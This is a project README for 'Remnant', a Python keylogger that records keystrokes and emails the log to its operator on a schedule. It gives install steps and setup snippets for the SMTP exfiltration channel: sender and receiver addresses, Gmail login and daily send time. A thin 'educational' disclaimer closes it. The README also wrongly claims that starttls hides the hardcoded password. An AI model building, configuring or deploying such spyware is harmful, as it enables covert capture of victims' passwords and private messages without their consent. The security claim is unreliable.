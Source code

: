 # Remnant
A keylogger written in Python with scheduled emailing functionality.

## Getting Started
There are several modules that you will need to make sure are installed before you can run Remnant keylogger.

* datetime
* email
* platform
* pyHook
* pythoncom
* pywin32
* smtplib
* threading

Most of these modules can be installed using pip. For example:

```
pip install smtplib
```

The email module can be obtained using easy_install.

```
easy_install email
```

If you are having trouble installing pyHook module download the wheel file for it [here](http://www.lfd.uci.edu/~gohlke/pythonlibs/#pyhook) and run the following command.

```
pip install pyHook‑1.5.1‑cp35‑cp35m‑win_amd64.whl
```
This example is installing pyHook for 64bit Windows and Python 3.5.

## Setup

Set your sending email and the address to which you want the keylog file to be sent.

```
fromaddr = "YOUR SENDING EMAIL ADDRESS"
toaddr = "YOUR RECEIVING EMAIL ADDRESS"
```
Also update these parameters with your email access credentials. Here we are using Gmail's smtp server on port 587. The password is placed directly in 'server.login' rather than a variable as the preceding line 'server.starttls' helps obfuscate this.

```
server = smtplib.SMTP('smtp.gmail.com', 587)
server.starttls()
server.login(fromaddr, "SENDING EMAIL ACCOUNT PASSWORD")
```
Set the time you want the keylog.txt file to be sent to you here:

```
y=x.replace(day=x.day+offset, hour=16, minute=30, second=0, microsecond=0)
```


## Disclaimer
This code is distributed for educational and research purposes. Do not use without a person's consent.

## License
This project is licensed under the GNU GENERAL PUBLIC LICENSE - see the [LICENSE](LICENSE) file for details.

